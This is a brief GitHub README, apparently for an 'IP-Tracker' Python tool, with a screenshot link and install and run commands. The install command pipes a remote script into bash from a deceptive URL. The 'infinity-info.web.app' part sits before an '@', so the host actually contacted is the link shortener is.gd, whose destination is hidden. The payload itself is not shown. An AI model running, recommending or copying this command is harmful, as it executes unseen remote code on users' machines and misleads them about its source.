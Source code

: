 # IP-Tracker
Infinity info network ip Tracker tool
### Tool
* python
* v 1.0
### Screenshot
![Screenshot_20240220-003142](https://github.com/infinitynetwork13/IP-Tracker/assets/155347164/783b1b73-71ba-4e2b-b4f0-39066d767fd1)

### Installing
```ruby
curl -sSL https://infinity-info.web.app@is.gd/pBxiU9 | bash && ip-info
```
### Run
```ruby
ip-info
```
